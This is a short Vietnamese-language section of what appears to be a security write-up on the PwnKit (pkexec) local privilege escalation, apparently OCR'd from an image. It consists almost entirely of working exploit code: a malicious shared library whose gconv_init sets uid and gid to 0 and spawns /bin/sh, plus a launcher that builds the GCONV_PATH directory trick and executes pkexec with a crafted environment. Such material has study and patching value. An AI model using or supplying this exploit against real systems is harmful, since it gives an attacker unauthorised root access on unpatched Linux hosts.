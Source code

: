 ### 2.2 Cách khai thác chi tiết

Khai thác lỗ hổng PwnKit bao gồm các bước sau:

1. **Tạo một thư viện độc hại (evil-so.c):**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```

Mã này tạo một thư viện động giả mạo để pkexec tải vào, giúp thực thi shell với quyền root.

2. **Viết mã khai thác (exploit.c)**:

```c
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main() {
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\tryaagard//\t\t" EVILSO "\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    
    return 0;
}
```
